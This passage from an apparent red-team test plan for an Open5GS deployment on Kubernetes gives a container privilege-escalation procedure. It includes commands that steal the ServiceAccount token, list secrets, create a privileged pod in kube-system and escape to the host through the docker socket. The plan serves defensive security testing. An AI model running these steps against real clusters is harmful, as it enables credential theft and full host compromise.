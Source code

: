 ### Artifacts Collected
- Network connection logs from attacker pod
- UPF container logs showing PFCP access attempts  
- NetworkPolicy enforcement verification
- Packet captures of blocked/allowed PFCP traffic

---

## Attack Scenario 2: Container Privilege Escalation  

### Objective
Test escalation from compromised pod to cluster admin privileges through misconfigured RBAC, excessive capabilities, or insecure volume mounts.

### Attack Procedure

**Step 1: ServiceAccount Token Analysis**
```bash
kubectl exec -n attacker -it attacker-pod -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc

# Test API access with default token
curl -k -sS --header "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/open5gs/secrets | jq .
```

**Step 2: Privilege Assessment**
```bash
# Check for cluster-wide permissions
curl -k -sS --header "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces | jq '.items[].metadata.name'

# Attempt pod creation in kube-system
curl -k -X POST --header "Authorization: Bearer $TOKEN" \
  --header "Content-Type: application/json" \
  $APISERVER/api/v1/namespaces/kube-system/pods \
  --data @privileged-pod.json
```

**Step 3: Host Escape Attempt**
```bash
# Check for dangerous volume mounts
mount | grep "/host"
ls -la /var/run/docker.sock 2>/dev/null

# If docker socket mounted, attempt container escape
docker -H unix:///var/run/docker.sock run --rm -it \
  --privileged --net=host --pid=host --ipc=host \
  --volume /:/host alpine chroot /host
```
